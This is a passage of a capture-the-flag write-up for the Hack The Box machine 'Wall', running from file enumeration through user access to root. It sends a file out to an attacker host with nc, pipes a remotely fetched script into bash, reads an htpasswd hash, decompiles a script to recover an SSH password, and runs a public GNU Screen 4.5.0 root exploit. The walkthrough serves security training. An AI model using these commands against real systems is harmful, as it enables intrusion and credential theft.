         400158      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Transfiletriggername
         400160      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Suggestname
         400161      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Supplementname
         400142     72 -rw-r--r--   1 shelby   shelby      73727 Jul  4  2019 ./.rpmdb/__db.002
         400155      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Sigmd5
         400159      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Recommendname
         400140      0 -rw-r--r--   1 shelby   shelby          0 Jul  4  2019 ./.rpmdb/.dbenv.lock
         400157      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Filetriggername
         400149      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Providename
         400153      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Dirnames
         400146      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Basenames
         400151      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Obsoletename
         400144      8 -rw-r--r--   1 shelby   shelby      12288 Jul  4  2019 ./.rpmdb/Packages
         400156      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Sha1header
         400162      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Enhancename
         400150      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Conflictname
         400152      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Triggername
         400145      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Name
         400154      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Installtid
         400128      4 -rw-r--r--   1 shelby   shelby        807 Apr  4  2018 ./.profile
      find: './.cache': Permission denied
         400138      4 -rw-------   1 shelby   shelby         33 Jul  4  2019 ./user.txt
      find: './.local/share': Permission denied
    

Here we have a html.zip file that looks interesting, so let's copy it in a temporary directory such as /tmp or /dev/shm:
    
    
    
      www-data@Wall:/home/shelby$ cp html.zip /dev/shm
      www-data@Wall:/home/shelby$ file /dev/shm/html.zip && md5sum /dev/shm/html.zip
      /dev/shm/html.zip: Zip archive data, at least v1.0 to extract
      5b339f84b6839bd5c445dc968ffe3677  /dev/shm/html.zip
    
    
      www-data@Wall:/home/shelby$ cd /dev/shm/
    
      www-data@Wall:/dev/shm$ ls
      html.zip
    
      www-data@Wall:/dev/shm$ unzip html.zip
      Archive:  html.zip
         creating: html/
       extracting: html/aa.php
        inflating: html/index.md
        inflating: html/panel.php
         creating: html/monitoring/
        inflating: html/monitoring/index.md
        inflating: html/monitoring/.htaccess
    

The interesting thing here is .htaccess: 
    
    
    
      www-data@Wall:/dev/shm$ cd html
      www-data@Wall:/dev/shm/html$ ls
      aa.php  index.html  monitoring  panel.php
    
      www-data@Wall:/dev/shm/html$ cd monitoring
    
      www-data@Wall:/dev/shm/html/monitoring$ cat .htaccess
      AuthUserFile /etc/.htpasswd
      AuthName "Protected area by the admin"
      AuthType Basic
      <****Limit GET>
      require valid-user <****/Limit>

Here we see why the initial GET/POST request type switching worked, with this Limit GET line, however we are being hinted towards a /etc/.htpasswd so let's see what we can get out of it: 
    
    
      www-data@Wall:/dev/shm/html/monitoring$ cat /etc/.htpasswd
      admin:$apr1$7hIqRwgr$.QPU0yknBQRTf3WW9jfFp.
    
    

And we seem to get a hash, we could try to use hashscat in conjunction with the rockyou.txt wordlist however sadly rockyou.txt doesn't contain the password for that this hash is, so we can consider this a rabbithole. Now from a forensic point of view we can examine shelby's files based on their timestamps, since we know that shelby's last interaction was from somewhere around july 2019. 
    
    
    
      www-data@Wall:/dev/shm/html/monitoring**$ find / -type f -newermt 2019-07-03 ! -newermt 2019-07-31 -readable -ls 2>/dev/null | grep -v dist-packages**
         **275056      4 -rw-r--r--   1 root     root         1168 Jul 30  2019 /opt/.shelby/backup**
         788648    160 -rw-r--r--   1 root     root       163442 Jul  4  2019 /share/man/man1/screen.1
         788636     96 -rw-r--r--   1 root     root        95776 Jul  4  2019 /share/screen/utf8encodings/19
         788642      4 -rw-r--r--   1 root     root           68 Jul  4  2019 /share/screen/utf8encodings/c6
         788637      4 -rw-r--r--   1 root     root          536 Jul  4  2019 /share/screen/utf8encodings/a1
         788639      4 -rw-r--r--   1 root     root          256 Jul  4  2019 /share/screen/utf8encodings/c2
         788634     24 -rw-r--r--   1 root     root        24302 Jul  4  2019 /share/screen/utf8encodings/04
         788632     28 -rw-r--r--   1 root     root        27550 Jul  4  2019 /share/screen/utf8encodings/02
         788645      4 -rw-r--r--   1 root     root           68 Jul  4  2019 /share/screen/utf8encodings/cc
         788641      4 -rw-r--r--   1 root     root          228 Jul  4  2019 /share/screen/utf8encodings/c4
         788640      4 -rw-r--r--   1 root     root          140 Jul  4  2019 /share/screen/utf8encodings/c3
         788647      4 -rw-r--r--   1 root     root          212 Jul  4  2019 /share/screen/utf8encodings/d6
         788638      4 -rw-r--r--   1 root     root          232 Jul  4  2019 /share/screen/utf8encodings/bf
         788643      4 -rw-r--r--   1 root     root           52 Jul  4  2019 /share/screen/utf8encodings/c7
         788633     36 -rw-r--r--   1 root     root        32926 Jul  4  2019 /share/screen/utf8encodings/03
         788646      4 -rw-r--r--   1 root     root           52 Jul  4  2019 /share/screen/utf8encodings/cd
         788631     32 -rw-r--r--   1 root     root        29808 Jul  4  2019 /share/screen/utf8encodings/01
         788635     56 -rw-r--r--   1 root     root        54862 Jul  4  2019 /share/screen/utf8encodings/18
         788644      4 -rw-r--r--   1 root     root           40 Jul  4  2019 /share/screen/utf8encodings/c8
         273100   1560 -rwsr-xr-x   1 root     root      1595624 Jul  4  2019 /bin/screen-4.5.0
        1075171      4 -rw-rw-r--   1 centreon centreon      634 Jul  3  2019 /usr/local/centreon/log/statistics.log
         143906     16 -rw-r--r--   1 www-data www-data    15325 Jul 30  2019 /usr/local/centreon/GPL_LIB/SmartyCache/compile/%%EE^EE6^EE652FDC%%formMyAccount.ihtml.php
         141228      4 -rw-r--r--   1 root     root           44 Jul  4  2019 /etc/subuid
         273057      4 -rw-r--r--   1 root     root          527 Jul  4  2019 /etc/modsecurity/modsecurity.conf
         131078      4 -rw-r--r--   1 root     root          188 Jul 30  2019 /etc/hosts
         143933      4 -rw-r--r--   1 root     root         1629 Jul  4  2019 /etc/passwd
         131220      4 -rw-r--r--   1 root     root          879 Jul  4  2019 /etc/group-
         138666      4 -rw-r--r--   1 root     root           44 Jul  4  2019 /etc/subgid
         143907      4 -rw-r--r--   1 root     root         3611 Jul 30  2019 /etc/mailcap
         400121      4 -rw-rw-r--   1 sysmonitor sysmonitor      173 Jul  4  2019 /home/sysmonitor/.wget-hsts
         400169      8 -rw-rw-r--   1 shelby     shelby         4567 Jul 30  2019 /home/shelby/html.zip
         400147      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Group
         400141    124 -rw-r--r--   1 shelby     shelby       270335 Jul  4  2019 /home/shelby/.rpmdb/__db.001
         400148      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Requirename
         400143    120 -rw-r--r--   1 shelby     shelby       266239 Jul  4  2019 /home/shelby/.rpmdb/__db.003
         400158      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Transfiletriggername
         400160      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Suggestname
         400161      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Supplementname
         400142     72 -rw-r--r--   1 shelby     shelby        73727 Jul  4  2019 /home/shelby/.rpmdb/__db.002
         400155      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Sigmd5
         400159      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Recommendname
         400140      0 -rw-r--r--   1 shelby     shelby            0 Jul  4  2019 /home/shelby/.rpmdb/.dbenv.lock
         400157      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Filetriggername
         400149      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Providename
         400153      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Dirnames
         400146      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Basenames
         400151      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Obsoletename
         400144      8 -rw-r--r--   1 shelby     shelby        12288 Jul  4  2019 /home/shelby/.rpmdb/Packages
         400156      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Sha1header
         400162      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Enhancename
         400150      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Conflictname
         400152      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Triggername
         400145      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Name
         400154      8 -rw-r--r--   1 shelby     shelby         8192 Jul  4  2019 /home/shelby/.rpmdb/Installtid
              9      4 -rw-r--r--   1 www-data   www-data        154 Jul  4  2019 /dev/shm/html/monitoring/index.md
              7      4 -rw-r--r--   1 www-data   www-data         47 Jul  4  2019 /dev/shm/html/panel.php
         655701     12 -rw-r--r--   1 root       root         192064 Jul  4  2019 /var/log/faillog
         655463      8 -rw-r--r--   1 root       root           4567 Jul 30  2019 /var/www/html.zip
         671129      4 -rw-r--r--   1 root       root             47 Jul  4  2019 /var/www/html/panel.php
         671103      4 -rw-r--r--   1 root       root            154 Jul  4  2019 /var/www/html/monitoring/index.md
         667113     12 -rw-r--r--   1 root       root          10615 Jul 30  2019 /var/lib/dpkg/info/python-crypto.list
         667208      4 -rw-r--r--   1 root       root           1657 Jul 30  2019 /var/lib/dpkg/info/python-pkg-resources.list
         667048      4 -rw-r--r--   1 root       root           1184 Jul 30  2019 /var/lib/dpkg/info/libexpat1-dev:amd64.list
         667189      4 -rw-r--r--   1 root       root           1570 Jul 30  2019 /var/lib/dpkg/info/python-keyrings.alt.list
         667091      4 -rw-r--r--   1 root       root             64 Jul 30  2019 /var/lib/dpkg/info/python-all-dev.list
         667181      4 -rw-r--r--   1 root       root           2996 Jul 30  2019 /var/lib/dpkg/info/python-keyring.list
         667201      8 -rw-r--r--   1 root       root           5416 Jul 30  2019 /var/lib/dpkg/info/python-pip.list
         667082      4 -rw-r--r--   1 root       root            517 Jul 30  2019 /var/lib/dpkg/info/python2.7-dev.list
         667104      4 -rw-r--r--   1 root       root            297 Jul 30  2019 /var/lib/dpkg/info/python-cffi-backend.list
         667135      4 -rw-r--r--   1 root       root            593 Jul 30  2019 /var/lib/dpkg/info/python-ipaddress.list
         667070      4 -rw-r--r--   1 root       root             67 Jul 30  2019 /var/lib/dpkg/info/libpython-all-dev:amd64.list
         667172      4 -rw-r--r--   1 root       root            750 Jul 30  2019 /var/lib/dpkg/info/python-secretstorage.list
         667222      4 -rw-r--r--   1 root       root           1777 Jul 30  2019 /var/lib/dpkg/info/python-wheel.list
         667151      8 -rw-r--r--   1 root       root           6981 Jul 30  2019 /var/lib/dpkg/info/python-cryptography.list
         655480      4 -rw-r--r--   1 root       root            445 Jul 30  2019 /var/lib/dpkg/info/zip.list
         667128      4 -rw-r--r--   1 root       root            889 Jul 30  2019 /var/lib/dpkg/info/python-idna.list
         667165      4 -rw-r--r--   1 root       root           1878 Jul 30  2019 /var/lib/dpkg/info/python-gi.list
         667076      4 -rw-r--r--   1 root       root             60 Jul 30  2019 /var/lib/dpkg/info/python-all.list
         667229      4 -rw-r--r--   1 root       root           1028 Jul 30  2019 /var/lib/dpkg/info/python-xdg.list
         667099      4 -rw-r--r--   1 root       root           2074 Jul 30  2019 /var/lib/dpkg/info/python-asn1crypto.list
         667072      0 -rw-r--r--   1 root       root              0 Jul 30  2019 /var/lib/dpkg/info/libpython-all-dev:amd64.md5sums
         667143      4 -rw-r--r--   1 root       root            574 Jul 30  2019 /var/lib/dpkg/info/python-six.list
         667087      0 -rw-r--r--   1 root       root              0 Jul 30  2019 /var/lib/dpkg/info/python-dev.md5sums
         667215      8 -rw-r--r--   1 root       root           6133 Jul 30  2019 /var/lib/dpkg/info/python-setuptools.list
         667194      4 -rw-r--r--   1 root       root           1584 Jul 30  2019 /var/lib/dpkg/info/python-pip-whl.list
         667061      8 -rw-r--r--   1 root       root           4511 Jul 30  2019 /var/lib/dpkg/info/libpython2.7-dev:amd64.list
         667158      4 -rw-r--r--   1 root       root           1515 Jul 30  2019 /var/lib/dpkg/info/python-dbus.list
         667077      0 -rw-r--r--   1 root       root              0 Jul 30  2019 /var/lib/dpkg/info/python-all.md5sums
         655475      4 -rw-r--r--   1 root       root            614 Jul 30  2019 /var/lib/dpkg/info/unzip.list
         667086      4 -rw-r--r--   1 root       root            394 Jul 30  2019 /var/lib/dpkg/info/python-dev.list
         667121      4 -rw-r--r--   1 root       root            968 Jul 30  2019 /var/lib/dpkg/info/python-enum34.list
         667066      4 -rw-r--r--   1 root       root            334 Jul 30  2019 /var/lib/dpkg/info/libpython-dev:amd64.list
         667092      0 -rw-r--r--   1 root       root              0 Jul 30  2019 /var/lib/dpkg/info/python-all-dev.md5sums
         671145     52 -rw-r--r--   1 root       root          51200 Jul  4  2019 /var/backups/alternatives.tar.0
         655477     28 -rw-r--r--   1 root       root          26396 Jul 30  2019 /var/backups/apt.extended_states.0
    
    

So running this command, we can get the readable files in between the 2 timestamps we want , piping the error messages into /dev/null and ignoring python's ton of dist-packages. At the very top of that output we are hinted towards a file named backup in /opt/.shelby
    
    
      www-data@Wall:/dev/shm/html/monitoring$ file /opt/.shelby/backup
      /opt/.shelby/backup: python 2.7 byte-compiled
    

So let's execute it and see what it does: 
    
    
      www-data@Wall:/dev/shm/html/monitoring$ python /opt/.shelby/backup
      [+] Done !
    
      www-data@Wall:/dev/shm/html/monitoring$ ls -lash /home/shelby
      total 48K
      4.0K drwxr-xr-x 6 shelby shelby 4.0K Jul 30  2019 .
      4.0K drwxr-xr-x 4 root   root   4.0K Jul  4  2019 ..
         0 lrwxrwxrwx 1 root   root      9 Jul  6  2019 .bash_history -> /dev/null
      4.0K -rw-r--r-- 1 shelby shelby  220 Apr  4  2018 .bash_logout
      4.0K -rw-r--r-- 1 shelby shelby 3.7K Apr  4  2018 .bashrc
      4.0K drwx------ 2 shelby shelby 4.0K Jul  4  2019 .cache
      4.0K drwx------ 3 shelby shelby 4.0K Jul  4  2019 .gnupg
      4.0K drwxrwxr-x 3 shelby shelby 4.0K Jul  4  2019 .local
      4.0K -rw-r--r-- 1 shelby shelby  807 Apr  4  2018 .profile
      4.0K drwxr-xr-x 2 shelby shelby 4.0K Jul  4  2019 .rpmdb
      **8.0K -rw-rw-r-- 1 shelby shelby 4.5K May  1 13:21 html.zip**
      4.0K -rw------- 1 shelby shelby   33 Jul  4  2019 user.txt
    

Looks like it updated the html.zip file in shelby's home directory, which obviously, this python file achieved some kind of an authentication to do so. That is because, we (as www-data) cannot write in shelby's home directory:
    
    
      www-data@Wall:/dev/shm/html/monitoring$ touch test /home/shelby/123
      touch: cannot touch '/home/shelby/123': Permission denied
    
    

So it means that this python binary that we executed as www-data, managed to update a file in shelby's home directory. Python binaries are reversable so let's copy it to our local machine: 

_Terminal 1:_
    
    
    
      www-data@Wall:/dev/shm/html/monitoring$ cd /opt/.shelby
      www-data@Wall:/opt/.shelby$ ls -lash
      total 12K
      4.0K drwxr-xr-x 2 root root 4.0K Jul 30  2019 .
      4.0K drwxr-xr-x 3 root root 4.0K Jul  4  2019 ..
      4.0K -rw-r--r-- 1 root root 1.2K Jul 30  2019 backup
      www-data@Wall:/opt/.shelby$ which nc
      /bin/nc
      www-data@Wall:/opt/.shelby$ cat backup | nc 10.10.14.8 9002
      www-data@Wall:/opt/.shelby$ file backup && md5sum backup
      backup: python 2.7 byte-compiled
      afc565ae6f186586eef0f5d4e1ff9f5f  backup
    

` _Terminal 2:_
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [~/_HTB/Wall]
      → nc -lvnp 9002  > backup
      listening on [any] 9002 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.157] 52084
      ^C
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [~/_HTB/Wall]
      → file backup && md5sum backup
      backup: python 2.7 byte-compiled
      afc565ae6f186586eef0f5d4e1ff9f5f  backup
    

Here we see that we successfully saved the backup file to our local machine since both their md5 hashes are the same. Now to decompile this backup file we use a python utility called "uncompyle" 
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [~/_HTB/Wall]
      → sudo pip3 install uncompyle
      [sudo] password for nothing:
      Collecting uncompyle
        Downloading uncompyle-2.0.0-py2.py3-none-any.whl (2.2 kB)
      Collecting uncompyle6
        Downloading uncompyle6-3.6.7-py3-none-any.whl (311 kB)
           |████████████████████████████████| 311 kB 1.8 MB/s
      Collecting xdis<****4.6.0,>=4.5.1
        Downloading xdis-4.5.1-py37-none-any.whl (115 kB)
           |████████████████████████████████| 115 kB 8.7 MB/s
      Collecting spark-parser <****1.9.0,>=1.8.9
        Downloading spark_parser-1.8.9-py38-none-any.whl (18 kB)
      Requirement already satisfied: click in /usr/lib/python3/dist-packages (from spark-parser <****1.9.0,>=1.8.9->uncompyle6->uncompyle) (7.0)
      Installing collected packages: xdis, spark-parser, uncompyle6, uncompyle
      Successfully installed spark-parser-1.8.9 uncompyle-2.0.0 uncompyle6-3.6.7 xdis-4.5.1
    
      [ 10.10.14.8/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → uncompyle6 backup
    
      # file backup
      # path backup must point to a .py or .pyc file
    
      [ 10.10.14.8/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → mv backup backup.pyc
    
      [ 10.10.14.8/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → uncompyle6 backup.pyc > backup.py
    
      [ 10.10.14.8/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → nano backup.py
    
    
      # uncompyle6 version 3.6.7
      # Python bytecode 2.7 (62211)
      # Decompiled from: Python 3.8.2 (default, Apr  1 2020, 15:52:55)
      # [GCC 9.3.0]
      # Embedded file name: backup.py
      # Compiled at: 2019-07-30 15:38:22
      import paramiko
      username = 'shelby'
      host = 'wall.htb'
      port = 22
      transport = paramiko.Transport((host, port))
      password = ''
      password += chr(ord('S'))
      password += chr(ord('h'))
      password += chr(ord('e'))
      password += chr(ord('l'))
      password += chr(ord('b'))
      password += chr(ord('y'))
      password += chr(ord('P'))
      password += chr(ord('a'))
      password += chr(ord('s'))
      password += chr(ord('s'))
      password += chr(ord('w'))
      password += chr(ord('@'))
      password += chr(ord('r'))
      password += chr(ord('d'))
      password += chr(ord('I'))
      password += chr(ord('s'))
      password += chr(ord('S'))
      password += chr(ord('t'))
      password += chr(ord('r'))
      password += chr(ord('o'))
      password += chr(ord('n'))
      password += chr(ord('g'))
      password += chr(ord('!'))
      transport.connect(username=username, password=password)
      sftp_client = paramiko.SFTPClient.from_transport(transport)
      sftp_client.put('/var/www/html.zip', 'html.zip')
      print '[+] Done !'
      # okay decompiling backup.pyc
    

And so we have shelby's credentials ! shelby:ShelbyPassw@rdIsStrong! so we can try to use it to login via ssh:
    
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → ssh shelby@10.10.10.157
      The authenticity of host '10.10.10.157 (10.10.10.157)' can't be established.
      ECDSA key fingerprint is SHA256:rUe3KWmT3ZJhKW+86+Zm8EKcgYr9TPlkU+W962iQEUY.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.10.157' (ECDSA) to the list of known hosts.
      shelby@10.10.10.157's password:
      Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-54-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
    
       * Canonical Livepatch is available for installation.
         - Reduce system reboots and improve kernel security. Activate at:
           https://ubuntu.com/livepatch
      Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
      Last login: Tue Jul 30 17:36:33 2019 from 192.168.178.1
      shelby@Wall:~$ id
      uid=6001(shelby) gid=6001(shelby) groups=6001(shelby)
      shelby@Wall:~$ cat user.txt
    
      feXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print the user flag. 

## **Part 3 : Getting Root Access**

Now in order to privesc to root we can use a cool privesc tool called [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) it was made by [ carlospolop](https://github.com/carlospolop/)

_Terminal 1:_
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [/opt]
      → sudo git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/
      Cloning into 'privilege-escalation-awesome-scripts-suite'...
      remote: Enumerating objects: 166, done.
      remote: Counting objects: 100% (166/166), done.
      remote: Compressing objects: 100% (134/134), done.
      remote: Total 1933 (delta 100), reused 62 (delta 31), pack-reused 1767
      Receiving objects: 100% (1933/1933), 11.30 MiB | 4.46 MiB/s, done.
      Resolving deltas: 100% (1051/1051), done.
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [/opt]
      → sudo updatedb
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [/opt]
      → cd -
      /home/nothing/_HTB/Wall
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [~/_HTB/Wall]
      → locate linpeas.sh
      /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [~/_HTB/Wall]
      → cp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [~/_HTB/Wall]
      → python -m SimpleHTTPServer 9090
      Serving HTTP on 0.0.0.0 port 9090 ...
    

` _Terminal 2:_
    
    
      shelby@Wall:~$ which wget; which curl; which nc
      /usr/bin/wget
      /bin/nc
    
      shelby@Wall:~$ wget http://10.10.14.8:9090/linpeas.sh -O - | bash
    

` 

LinPEAS is preety cool because it adds color to our privilege escalation checks unlike the usual LinEnum.sh, so we can pinpoint what's important more quickly. 

So here we are hinted towards the /bin/screen-4.5.0 binary which seems to contain a very likely privesc vector: 
    
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/6 ] [~/_HTB/Wall]
      → searchsploit screen | grep 4.5
      GNU Screen 4.5.0 - Local Privilege E | exploits/linux/local/41152.txt
      GNU Screen 4.5.0 - Local Privilege E | exploits/linux/local/41154.sh
      PeerBlock 1.1 - Blue Screen of Death | exploits/windows/dos/18475.txt
      Solaris 11.4 - xscreensaver Privileg | exploits/solaris/local/47529.txt
      Solaris xscreensaver 11.4 - Privileg | exploits/solaris/local/47509.txt
    
    

So here we see the public exploits available to us, which should ring a bell because we also did a privesc through the screen binary back in the [Haircut](8.md) box which had literally the same binary as this box, so it will be quite similar:

_Terminal 1:_
    
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/6 ] [~/_HTB/Wall]
      → locate 41154.sh
      /usr/share/exploitdb/exploits/linux/local/41154.sh
    
      [ 10.10.14.8/23 ] [ /dev/pts/6 ] [~/_HTB/Wall]
      → cp /usr/share/exploitdb/exploits/linux/local/41154.sh .
    
      [ 10.10.14.8/23 ] [ /dev/pts/6 ] [~/_HTB/Wall]
      → python -m SimpleHTTPServer 9090
      Serving HTTP on 0.0.0.0 port 9090 ...
    

` _Terminal 2:_
    
    
      shelby@Wall:~$ ls
      html.zip  user.txt
      shelby@Wall:~$ wget http://10.10.14.8:9090/41154.sh
      --2020-05-01 14:14:09--  http://10.10.14.8:9090/41154.sh
      Connecting to 10.10.14.8:9090... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 1192 (1.2K) [text/x-sh]
      Saving to: ‘41154.sh’
    
      41154.sh                          100%[===========================================================>]   1.16K  --.-KB/s    in 0s
    
      2020-05-01 14:14:09 (120 MB/s) - ‘41154.sh’ saved [1192/1192]
    
      shelby@Wall:~$ bash 41154.sh
    
      [...]
    
      # cat /root/root.txt
      1fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

